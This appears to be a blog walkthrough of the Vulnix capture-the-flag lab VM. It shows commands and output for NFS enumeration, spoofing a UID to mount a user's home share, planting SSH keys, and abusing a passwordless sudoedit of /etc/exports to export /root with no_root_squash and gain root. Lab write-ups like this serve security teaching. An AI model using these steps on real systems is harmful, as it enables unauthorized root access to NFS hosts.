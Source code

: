 ```yaml
---
layout: single
title: Vulnix CTF Walkthrough
date: 2017-08-21
categories:
  - security
  - ctf
  - walkthrough
tags:
  - vulnix
  - vulnhub
---
```

## Service Discovery & Enumeration
Nmap [`nmap -sS -sV -sC 192.168.22.134`] revealed a number of different services for this box, offering a lot of potential enumeration points:

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
79/tcp   open  finger   Linux fingerd
110/tcp  open  pop3     Dovecot pop3d
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      42005/udp  mountd
|   100005  1,2,3      54538/tcp  mountd
|   100021  1,3,4      37679/tcp  nlockmgr
|   100021  1,3,4      50827/udp  nlockmgr
|   100024  1          49501/udp  status
|   100024  1          53102/tcp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
143/tcp  open  imap     Dovecot imapd
512/tcp  open  exec     netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  shell    Netkit rshd
993/tcp  open  ssl/imap Dovecot imapd
995/tcp  open  ssl/pop3 Dovecot pop3d
2049/tcp open  nfs_acl  2-3 (RPC #100227)
```

The first service I took a look at was the NFS daemon, by looking at the export list on the host machine:

```shell_session
root@kali:~# showmount -e 192.168.22.134
Export list for 192.168.22.134:
/home/vulnix *
```

The home directory of the `vulnix` user is being exposed, which presents a potentially easy access point. Prior to NFSv4, it's possible to view the owner UID and GID of a remote share, so I tried to mount the share using NFSv3:

```shell_session
root@kali:~/vulnix# mkdir mnt && mount 192.168.22.134:/home/vulnix mnt -o vers=3
root@kali:~/vulnix# ls -l
total 4
drwxr-x--- 2 2008 2008 4096 Sep  2  2012 mnt
```

As can be seen in the above output, the owning user and group have the IDs `2008`. There are multiple tools available to aid in spoofing this, but it's also as easy to just add a new user with the specified ID, so I created a new user with ID 2008, switched to it, and then had access to the share:

```shell_session
root@kali:~/vulnix# useradd -u 2008 vulnix
root@kali:~/vulnix# su vulnix
$ cd mnt
$ ls -lah
total 20K
drwxr-x--- 2 vulnix vulnix 4.0K Sep  2  2012 .
drwxr-xr-x 3 root   root   4.0K Aug 20 15:28 ..
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile
```

Now that I had remote write access as `vulnix`, I created a new SSH key pair, and copied the public key into `.ssh/authorized_keys`, which then allowed me to SSH in to the box as `vulnix`

```shell_session
root@kali:~/vulnix# ssh -i id_rsa vulnix@192.168.22.134
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Aug 20 16:47:57 BST 2017

  System load:  0.0              Processes:           90
  Usage of /:   90.2% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.22.134
  Swap usage:   0%

  => / is using 90.2% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

vulnix@vulnix:~$
```

## Getting Root Access
Looking at the sudo privileges for `vulnix`, I could see that the user is able to edit the NFS exports without the need for a password:

```shell_session
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```

By using `sudoedit /etc/exports`, it's possible to add another share into the export list, one which uses the `no_squash_root` option; which prevents root users being remapped to the `nobody` user:

```conf
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix    *(rw,root_squash)
/root *(rw,no_root_squash)
```

This change doesn't automatically get applied, but will do so upon a system reboot. After rebooting the VM, the new share into the `/root` directory can be seen:

```shell_session
root@kali:~/vulnix# showmount -e 192.168.22.134
Export list for 192.168.22.134:
/root        *
/home/vulnix *
```

Following the same steps as before, it is now possible to add an SSH key into `/root/.ssh/authorized_keys` and gain root access:

```shell_session
root@kali:~/vulnix# mount 192.168.22.134:/root mnt -o vers=3
root@kali:~/vulnix# cd mnt
root@kali:~/vulnix/mnt# ls -la
total 28
drwx------ 3 root root 4096 Sep  2  2012 .
drwxr-xr-x 5 root root 4096 Aug 20 16:33 ..
-rw------- 1 root root    0 Sep  2  2012 .bash_history
-rw-r--r-- 1 root root 3106 Apr 19  2012 .bashrc
drwx------ 2 root root 4096 Sep  2  2012 .cache
-rw-r--r-- 1 root root  140 Apr 19  2012 .profile
-r-------- 1 root root   33 Sep  2  2012 trophy.txt
-rw------- 1 root root  710 Sep  2  2012 .viminfo
root@kali:~/vulnix/mnt# mkdir .ssh
root@kali:~/vulnix/mnt# cp ../id_rsa.pub .ssh/authorized_keys

root@kali:~/vulnix# ssh -i id_rsa root@192.168.22.134
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Aug 20 17:51:41 BST 2017

  System load:  0.0              Processes:           93
  Usage of /:   90.2% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.22.134
  Swap usage:   0%

  => / is using 90.2% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/

root@vulnix:~# ls
trophy.txt
root@vulnix:~# cat trophy.txt
cc614640424f5bd60ce5d5264899c3be
root@vulnix:~#
```
